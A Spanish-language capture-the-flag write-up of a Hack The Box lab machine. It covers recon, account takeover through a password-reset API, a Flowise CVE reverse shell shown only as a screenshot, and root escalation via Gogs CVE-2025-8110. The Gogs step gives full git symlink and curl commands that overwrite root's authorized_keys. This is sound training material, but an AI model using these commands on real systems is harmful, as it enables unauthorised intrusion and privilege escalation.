Empecé haciendo un reconocimiento con nmap para escanear los puertos.



Luego analicé los puertos un poco más a fondo para ver qué versiones de servicios estaban corriendo.



Me puse a indagar la versión de SSH para ver si era vulnerable.

  


Luego indagué un poco más y me puse a revisar la web que tiene montada.



Intenté acceder con la IP y me redirigió a la página, así que agregué el dominio a mi /etc/hosts para que lo reconociera.



Al entrar a la página hice un reconocimiento de usuarios; supongo que son los que existen por detrás.  


Me puse a hacer un escaneo de directorios con gobuster, pero no encontré nada.


Decidí indagar un poco más a fondo en la máquina: con Ctrl+U revisé el código fuente para ver si encontraba algún JS.



Indagando, me encontré con esto. Supongo que en /assets hay más cosas, así que lo analicé con gobuster.

Viendo el código de la página no encontré nada, así que consulté a DeepSeek para ver qué me sugería. Me recomendó buscar subdominios, y usando gobuster encontré algo.


No sé si esto me ayude, pero lo agregué al /etc/hosts para ver qué pasaba.


Encontré un login: vamos a ver qué hacemos con esto.

Indagando la página, encontré varios .js.  
  
  


No sé qué pueda llegar a encontrar aquí.

Aparte de esto, me di cuenta de que existe el usuario ben.  


Me devolvió el código 401, así que confirmé que ben existe; ahora había que averiguar su contraseña.  


Sabiendo esto, busqué cómo pedirle a la API que me enviara el token, tomando como referencia el script de forgot password.

El código es este:

```
import React, { useState, useEffect } from "react";
import { Link } from "react-router-dom";

// Componentes visuales (Material-UI / librería base)
import {
  useTheme,
  Stack,
  Typography,
  Button,
  Box,
  Card as MainCard,
} from "@mui/material";

// Componentes e iconos del proyecto
import { Input } from "./Input-CyGdJmMA.js";
import { BackdropLoader } from "./BackdropLoader-BoiYf2ra.js";
import {
  Alert,
  IconExclamationCircle,
} from "./IconExclamationCircle-CpN1RXoF.js";
import { IconCircleCheck } from "./IconCircleCheck-BQawbm75.js";

// Hooks y capa de API
import { useLicense } from "./hooks/useLicense";
import { useApi } from "./hooks/useApi";
import { authApi } from "./api";

const inputConfig = {
  label: "Username",
  name: "username",
  type: "email",
  placeholder: "user@company.com",
};

const ForgotPassword = () => {
  const theme = useTheme();
  const { isEnterpriseLicensed } = useLicense();

  // Estados del formulario y feedback
  const [email, setEmail] = useState("");
  const [loading, setLoading] = useState(false);
  const [alert, setAlert] = useState(null); // { type: "error" | "success", msg: string }

  // Hook de llamada a la API
  const forgotPasswordApi = useApi(authApi.forgotPassword);

  const handleSubmit = async (e) => {
    e.preventDefault();
    setLoading(true);
    await forgotPasswordApi.request({ user: { email } });
  };

  // Manejo de errores
  useEffect(() => {
    if (forgotPasswordApi.error) {
      const errorPayload = forgotPasswordApi.error.response?.data;
      const message =
        typeof errorPayload === "object"
          ? errorPayload.message
          : errorPayload;

      setAlert({
        type: "error",
        msg: message ?? "Failed to send instructions, please contact your administrator.",
      });
      setLoading(false);
    }
  }, [forgotPasswordApi.error]);

  // Manejo de éxito
  useEffect(() => {
    if (forgotPasswordApi.data) {
      setAlert({
        type: "success",
        msg: "Password reset instructions sent to the email.",
      });
      setLoading(false);
    }
  }, [forgotPasswordApi.data]);

  return (
    <MainCard>
      <Stack flexDirection="column" sx={{ width: "480px", gap: 3 }}>
        {/* Notificación de Error */}
        {alert?.type === "error" && (
          <Alert
            icon={<IconExclamationCircle />}
            variant="filled"
            severity="error"
          >
            {alert.msg}
          </Alert>
        )}

        {/* Notificación de Éxito */}
        {alert?.type === "success" && (
          <Alert
            icon={<IconCircleCheck />}
            variant="filled"
            severity="success"
          >
            {alert.msg}
          </Alert>
        )}

        {/* Título y enlace de navegación */}
        <Stack sx={{ gap: 1 }}>
          <Typography variant="h1">Forgot Password?</Typography>
          <Typography variant="body2" sx={{ color: theme.palette.grey[600] }}>
            Have a reset password code?{" "}
            <Link
              to="/reset-password"
              style={{ color: theme.palette.primary.main }}
            >
              Change your password here
            </Link>
            .
          </Typography>
        </Stack>

        {/* Formulario */}
        <form onSubmit={handleSubmit}>
          <Stack sx={{ width: "100%", gap: 2 }}>
            <Box>
              <div style={{ display: "flex", flexDirection: "row" }}>
                <Typography>
                  Email<span style={{ color: "red" }}> *</span>
                </Typography>
                <div style={{ flexGrow: 1 }} />
              </div>

              <Input
                inputParam={inputConfig}
                value={email}
                onChange={(val) => setEmail(val)}
                showDialog={false}
              />

              {isEnterpriseLicensed && (
                <Typography variant="caption">
                  <i>
                    If you forgot the email you used for signing up, please
                    contact your administrator.
                  </i>
                </Typography>
              )}
            </Box>

            <Button
              type="submit"
              variant="contained"
              disabled={!email}
              style={{ borderRadius: 12, height: 40, marginRight: 5 }}
            >
              Send Reset Password Instructions
            </Button>
          </Stack>
        </form>

        <BackdropLoader open={loading} />
      </Stack>
    </MainCard>
  );
};

export default ForgotPassword;
```

Realmente no sé casi nada de JS, así que le pregunté a Gemini qué hacía el código, y esto fue lo que me respondió:

**¿Qué hace exactamente este código?**

- **Flujo de recuperación de contraseña:** Renderiza una tarjeta con un campo para ingresar un correo electrónico y solicitar el restablecimiento de credenciales.

- **Consumo de endpoint (`b.forgotPassword` / `authApi.forgotPassword`):** Al enviar el formulario (`handleSubmit`), empaqueta el input en el payload `{ user: { email: i } }` y dispara una petición HTTP POST vía un hook (`useApi`).

- **Bloqueo y carga:** Activa un overlay de carga (`BackdropLoader`) mientras la petición está en vuelo.

- **Control de respuestas asíncronas:** Mediante dos `useEffect`, escucha si la API resolvió con éxito (`r.data`) para mostrar un banner verde, o si falló (`r.error`) para extraer el mensaje de error del backend y mostrar un banner rojo.

- **Navegación secundaria:** Incluye un enlace hacia `/reset-password` para usuarios que ya poseen un código o token recibido previamente.

Le pregunté cómo tendría que hacer para que me enviara un JWT a mi terminal, y esto fue lo que me dijo:

```
curl -X POST http://localhost:3000/api/v1/forgot-password \ -H "Content-Type: application/json" \ -d '{"user": {"email": "usuario@ejemplo.com"}}'
```

Ya sabíamos que ben era un usuario válido, así que lo adaptamos a esto:

```bash
curl -X POST http://staging.silentium.htb/api/v1/account/forgot-password \
  -H "Content-Type: application/json" \
  -d '{"user":{"email":"ben@silentium.htb"}}'
```


Una vez conseguido el token, cambiamos la contraseña del correo y nos logueamos.



Una vez dentro, fui a la sección de API keys y encontré esto:  


No sabía para qué podía usarlo, así que le pregunté a DeepSeek qué podía hacer con eso. Me dijo lo siguiente:


La única que me dio resultados interesantes fue el bearer token; no sabía lo que era, así que lo investigué:  
**Bearer token** (o token de portador) es una <mark>cadena de caracteres cifrada o aleatoria que otorga acceso a recursos protegidos en una API o servidor</mark>, funcionando bajo la premisa de que **quien porta o tiene el token recibe la autorización**.


Indagando en la página, me di cuenta de que Flowise estaba en la versión 3.0.5 y que tenía varios CVEs asociados, así que decidí probar. Busqué en GitHub y encontré este: https://github.com/advisories/GHSA-3gcm-f6qx-ff7p. Vamos a probar a ver qué tal.

Usé este payload para conseguir una reverse shell y entrar a la máquina.  


Dentro de la máquina me di cuenta de que estaba en un contenedor de Docker, así que me puse a averiguar cómo salir. Después de un buen rato de búsqueda, noté que había pasado literalmente por encima de la respuesta una hora antes: ya había visto la forma de llegar a la cuenta del usuario ben, pero en su momento se me olvidó y la pasé por alto.


Pude haber pasado al siguiente usuario mucho antes, pero bueno, son cosas que le pasan a uno cuando anda medio estúpido.



Aquí nos dimos cuenta de que encontramos credenciales de SMTP, así que las probamos.


Aquí ya estoy adentro con el usuario ben.  


-----

Me quedé trabado un buen rato en la enumeración de vhosts, así que revisé la guía oficial de HTB y descubrí que había otro dominio. Realmente quería encontrar una forma de escalar privilegios, pero no hubo caso. No voy a mentir, no lo intenté absolutamente todo, pero poco a poco se aprende: aquí me faltó indagar más en la máquina.



Encontramos esta página.


No tenía ni la más mínima idea de lo que era Gogs ni de cómo funcionaba.

Encontré la versión del mismo; tuve que apoyarme en un writeup para seguir avanzando.  
  
Ya sé que debo indagar un poco más al analizar este tipo de webs. Busqué alguna vulnerabilidad para esta versión de Gogs y encontré el CVE-2025-8110. Eso sí, qué largo es el proceso para explotar esto, qué aburrido. Realmente me guie del writeup oficial de HTB.

Primero creamos un nuevo repositorio.  
  
Luego lo trajimos a nuestra PC:

```bash
git clone http://staging-v2-code.dev.silentium.htb/martin1/test.git
cd test
# Creamos el symlink apuntando al authorized_keys de root
ln -s /root/.ssh/authorized_keys overwrite_me
# Configuración y commit
git config user.email "martin@martinn.com"
git config user.name "martin1"
```


```bash
git add overwrite_me
git commit -m "symlink abuse"
# Push (con force por el README del remoto)
git push -f origin master
# Obtenemos el SHA del blob
git ls-tree HEAD overwrite_me
# 120000 blob 9c87fc525b63ebd989fa409533d3be1b295d6ec3    overwrite_me
```

### Generación de token de API y clave SSH

1. **Token de API** en Gogs: `Settings → Applications → Generate New Token`.

2. **Clave SSH**:

    ssh-keygen -t ed25519 -f ~/.ssh/id_gogs -N ""  
    echo -n "$(cat ~/.ssh/id_gogs.pub)" | base64 -w0

### Escritura en `/root/.ssh/authorized_keys`

Aprovechamos la API de Gogs que sigue el symlink:

```bash
curl -X PUT \
  -H "Authorization: token <TU_TOKEN>" \
  -H "Content-Type: application/json" \
  "http://staging-v2-code.dev.silentium.htb/api/v1/repos/martin1/test/contents/overwrite_me?ref=master" \
  -d '{
    "message": "overwrite via symlink",
    "content": "<BASE64_DE_TU_CLAVE_PUBLICA>",
    "sha": "9c87fc525b63ebd989fa409533d3be1b295d6ec3"
  }'
```

Luego accedí por SSH.  
  

